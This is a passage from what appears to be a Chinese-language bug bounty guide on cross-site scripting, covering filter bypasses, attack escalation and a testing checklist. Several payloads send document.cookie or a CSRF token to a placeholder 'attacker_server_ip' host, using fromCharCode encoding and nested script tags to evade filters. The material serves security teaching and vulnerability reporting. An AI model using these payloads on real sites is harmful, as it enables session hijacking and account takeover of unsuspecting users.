如果应用程序过滤了特殊的 HTML 字符，如单引号和双引号，你就不能直接将任何字符串写入 XSS 有效负载。但你可以尝试使用 JavaScript 的`fromCharCode()`函数，该函数将数字代码映射到相应的 ASCII 字符，从而创建你需要的字符串。例如，这段代码等同于字符串`"http://attacker_server_ip/?c="`：

```
String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107,
101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)
```

这意味着你可以构造没有引号的 XSS 有效负载，像这样：

```
<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 
47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 
101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
```

`String.fromCharCode()`函数接受一组 ASCII 字符代码作为输入，返回一个字符串。你可以使用这段代码通过使用在线 JavaScript 编辑器，如*https://js.do/*，来运行 JavaScript 代码，或者将其保存为 HTML 文件并在浏览器中加载，从而将你的漏洞字符串转换为 ASCII 数字序列：

```
<script>1 function ascii(c){ return c.charCodeAt();
}2 encoded = "INPUT_STRING".split("").map(ascii);3 document.write(encoded);
</script>
```

`ascii()`函数 1 将字符转换为其 ASCII 数值表示。我们将输入字符串中的每个字符都通过`ascii()`2。最后，我们将翻译后的字符串写入文档 3。让我们通过这段代码使用`http://attacker_server_ip/?c=`来翻译这个有效负载：

```
<script>
function ascii(c){ return c.charCodeAt();
}
encoded = "**http://attacker_server_ip/?c=**".split("").map(ascii);
document.write(encoded);
</script>
```

这段 JavaScript 代码应该输出`"104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61"`。你可以通过使用`fromCharCode()`方法来构造你的有效负载。

### 过滤器逻辑错误

最后，你可以利用过滤器逻辑中的任何错误。例如，有时应用程序会移除用户输入中的所有`<script>`标签以防止 XSS，但只执行一次。如果是这种情况，你可以使用像这样的有效负载：

```
<scrip<script>t>
location='http://attacker_server_ip/c='+document.cookie;
</scrip</script>t>
```

注意，每个`<script>`标签会将另一个`<script>`标签分割成两个。过滤器不会识别这些破损的标签为合法标签，但一旦过滤器从此有效负载中移除完整的标签，渲染后的输入就会变成一段完全有效的 JavaScript 代码：

```
<script>location='http://attacker_server_ip/c='+document.cookie;</script>
```

这些只是你可以尝试的几种过滤器绕过技术。XSS 防护很难做到完全正确，黑客们不断发明新的技术来绕过防护。这就是为什么黑客们仍然在不断发现并利用 XSS 漏洞。欲了解更多绕过过滤器的点子，请查看 OWASP 的 XSS 过滤器规避备忘单（[`owasp.org/www-community/xss-filter-evasion-cheatsheet`](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)）。你还可以通过 Google 搜索*XSS filter bypass*来阅读更多有趣的文章。

## 升级攻击

XSS 的影响因多个因素而异。例如，XSS 的类型决定了可能受影响的用户数量。存储型 XSS 在公共论坛上可能攻击任何访问该论坛页面的用户，因此存储型 XSS 被认为是最严重的。另一方面，反射型 XSS 或 DOM XSS 只会影响点击恶意链接的用户，而自我 XSS 需要大量的用户交互和社会工程学手段才能执行，因此通常被认为是低影响。

受影响用户的身份也很重要。假设一个存储型 XSS 漏洞存在于某个站点的服务器日志中。这个 XSS 可以影响系统管理员，并允许攻击者接管他们的会话。由于受影响的用户是具有高权限的账户，XSS 漏洞可能危及整个应用的完整性。你可能会获得对客户数据、内部文件和 API 密钥的访问权限，甚至可能通过上传 shell 或以管理员身份执行脚本，将攻击升级为远程代码执行（RCE）。

如果受影响的是普通用户群体，XSS 允许攻击者窃取私人数据，如 cookies 和会话令牌。这可以使攻击者劫持任何用户的会话并接管关联的账户。

大多数情况下，XSS 可以用来读取受害者页面上的敏感信息。由于 XSS 攻击期间执行的脚本与目标页面一起运行，该脚本能够访问该页面上的任何信息。这意味着你可以利用 XSS 窃取数据并从中升级你的攻击。你可以通过运行一个将数据发送回攻击者服务器的脚本来实现这一点。例如，这段代码片段读取受害者页面中嵌入的 CSRF 令牌，并将其作为 URL 参数 `token` 发送到攻击者的服务器。如果你能窃取用户的 CSRF 令牌，你就可以利用这些令牌在用户不知情的情况下执行操作，从而绕过网站的 CSRF 保护。（更多关于 CSRF 的内容，请参见第九章。）

```
var token = document.getElementsById('csrf-token')[0];
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://attacker_server_ip/?token="+token, true);
xhr.send(null);
```

XSS 还可以用来动态更改受害者看到的页面，因此你可以用假登录页面替换原页面，诱使用户提供他们的凭证（通常称为 *钓鱼*）。XSS 还允许攻击者自动将受害者重定向到恶意页面，并在伪装成合法站点的同时执行其他有害操作，如安装恶意软件。在报告你发现的 XSS 漏洞之前，务必评估该 XSS 的全部影响，以便在漏洞报告中包含相关信息。

## 自动化 XSS 攻击检测

XSS 攻击检测可能会非常耗时。你可能花费几个小时检查不同的请求参数，却始终找不到任何 XSS 漏洞。幸运的是，你可以使用工具提高工作效率。

首先，你可以使用浏览器开发者工具查找语法错误并排查你的有效载荷问题。我还喜欢使用我的代理搜索工具来搜索服务器响应中的反射输入。最后，如果你正在攻击的程序允许自动化测试，你可以使用 Burp Intruder 或其他模糊测试工具在目标上进行自动 XSS 扫描。我们将在第二十五章讨论这一点。

## 寻找你的第一个 XSS 漏洞！

直接开始寻找你的第一个 XSS 漏洞！选择一个目标并按照本章中介绍的步骤操作：

1.  在应用程序中寻找用户输入的机会。当用户输入被存储并用于构建网页时，测试输入字段是否存在存储型 XSS 漏洞。如果用户输入在 URL 中被反射到最终的网页上，测试是否存在反射型和 DOM XSS 漏洞。

1.  将 XSS 有效载荷插入到你找到的用户输入字段中。可以插入来自网络上的有效载荷列表、一个多语言有效载荷，或者一个通用测试字符串。

1.  通过检查浏览器是否执行了你的 JavaScript 代码来确认有效载荷的影响。或者，在盲 XSS 的情况下，看看你是否能让受害者的浏览器生成一个请求到你的服务器。

1.  如果你无法执行任何有效载荷，尝试绕过 XSS 防护。

1.  使用第二十五章中介绍的技术来自动化 XSS 漏洞的寻找过程。

1.  考虑你发现的 XSS 漏洞的影响：它针对谁？它能影响多少用户？你可以通过它达到什么目的？你能利用所发现的漏洞进行攻击升级吗？

1.  将你的第一个 XSS 漏洞报告提交给漏洞奖励计划！
